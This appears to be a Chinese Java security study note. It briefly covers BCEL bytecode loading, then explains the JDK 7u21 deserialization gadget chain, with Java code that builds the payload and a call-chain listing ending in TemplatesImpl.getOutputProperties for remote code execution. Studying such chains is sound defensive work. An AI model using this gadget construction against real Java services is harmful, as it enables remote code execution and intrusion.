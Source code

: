 （镜像问题：

**bcel利用条件**

）

BCEL用于操作字节码.

BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目

该类常常用于各种漏洞利用POC的构造，可以加载特殊的字符串所表示的字节码

但是在Java 8u251之后该类从JDK中移除（即对Java版本有限制）



### 谈谈7U21反序列化（★★★★★）[+]

从`LinkedHashSet.readObject`开始，找到父类`HashSet.readObject`方法，其中包含`HashMap`的类型转换以及`HashMap.put`方法，跟入`HashMap.put`其中对`key`与已有`key`进行`equals`判断，这个`equals`方法是触发后续利用链的关键。但`equals`方法的前置条件必须满足

```java
if (e.hash == hash && ((k = e.key) == key || key.equals(k)))
```

所以这里需要用哈希碰撞，让下一个`key`的哈希值和前一个相等，才可进入第二个条件。而第二个条件中必须让前一个条件失败才可以进去`equals`方法，两个`key`对象不相同是显而易见的

接下来的任务是找到一处能触发`equals`方法的地方

反射创建`AnnotationInvocationHandler`对象，传入`Templates`类型和`HashMap`参数。再反射创建被该对象代理的新对象，根据动态代理技术，代理对象方法调用需要经过`InvocationHandler.invoke`方法，在`AnnotationInvocationHandler`这个`InvocationHandler`的`invoke`方法实现中如果遇到`equals`方法，会进入`equalsImpl`方法，其中遍历了`equals`方法传入的参数`TemplatesImpl`的所有方法并反射调用，通过`getOutputProperties`方法最终加载字节码导致RCE

关于7U21的伪代码如下

```java
Object templates = Gadgets.createTemplatesImpl();
String zeroHashCodeStr = "f5a5a608";
HashMap map = new HashMap();
Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
ctor.setAccessible(true);
InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);
Templates proxy = (Templates) Proxy.newProxyInstance(exp.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);
LinkedHashSet set = new LinkedHashSet();
set.add(templates);
set.add(proxy);
map.put(zeroHashCodeStr, templates);
return set;
```

结合调用链

```text
LinkedHashSet.readObject()
  LinkedHashSet.add()/HashMap.put()
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
```
